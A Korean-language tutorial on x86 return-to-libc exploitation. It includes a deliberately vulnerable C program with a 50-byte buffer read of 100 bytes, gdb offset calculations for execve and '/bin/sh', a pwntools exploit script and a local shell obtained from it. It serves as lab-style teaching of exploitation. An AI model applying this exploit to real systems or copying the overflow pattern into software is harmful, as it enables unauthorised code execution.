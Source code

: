 # **x86 Return to libc**

Return address 영역에 공유 라이브러리 함수 주소로 변조해, 해당 함수를 호출하는 기법.  
NX bit(DEP) 우회 가능.

```
0xffffd578  0xffffd598  이전 호출 프레임(push ebp)
0xffffd57c  0x0804844e  Return Address
0xffffd580  0x1         Arg 1
0xffffd584  0x2         Arg 2
0xffffd588  0x3         Arg 3
0xffffd58c  0x4         Arg 4
``` 

ret2libc 기법 사용 시 인자 값을 전달하기 위해서 Return address의 4byte 뒤에 인자 값을 전달해야 함.

## **Proof of Concept**  

```c
// Vuln Code
// gcc -fno-stack-protector -o ret2libc ret2libc.c -ldl
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50] = "";
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 100);
}
 
void main(){
    vuln();
}
```

buf 크기는 50byte이지만 100byte를 입력받아 Buffer Overflow 발생.

```
gdb-peda$ x/24wx $ebp
0xbfdcb318:	0x41414141         0x42424242 <- &execve 0x43434343 <- &exit 0x44444444 <- &"/bin/sh"
0xbfdcb328:	0x45454545 <- null 0x46464646 <- null    0x0000000a          0xb7e0b637
```

execve()와 "/bin/sh" 주소를 확인한다.

```
gdb-peda$ p printf
$1 = {<text variable, no debug info>} 0xb7e3c670 <__printf>

gdb-peda$ p execve-printf
$2 = 0x67170

gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xb7f4ea0b ("/bin/sh")
gdb-peda$ p 0xb7f4ea0b-0xb7e3c670
$3 = 0x11239b

gdb-peda$ p printf-exit
$4 = 0x1aca0
```

## **Exploit Code**
```python
# Exploit Code
from pwn import *
p=process('ret2libc')

recv = p.recvline()
printf=int(recv.split(' ')[3],16)
execve = printf + int(0x67170)
binsh = printf + int(0x11239b)
exit = printf - int(0x1aca0)
null = printf - int(0x49530)

print('printf  :'+hex(printf))
print('execve  :'+hex(execve))
print('/bin/sh :'+hex(binsh))
print('exit    :'+hex(exit))
print('null    :'+hex(null))
p.sendline("A"*66+p32(execve)+p32(exit)+p32(binsh)+p32(null)+p32(null))

p.interactive()
```

## **Exploit**
```
bs@bs-virtual-machine:~$ python exploit.py 
[!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
[!] Could not find executable 'ret2libc' in $PATH, using './ret2libc' instead
[+] Starting local process './ret2libc': pid 16968
printf  :0xb7d94670
execve  :0xb7dfb7e0
/bin/sh :0xb7ea6a0b
exit    :0xb7d799d0
null    :0xb7d4b140
[*] Switching to interactive mode
$ id
uid=1000(bs) gid=1000(bs) groups=1000(bs),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

**Refereces**  
<https://www.lazenca.net/display/TEC/01.RTL%28Return+to+Libc%29+-+x86>

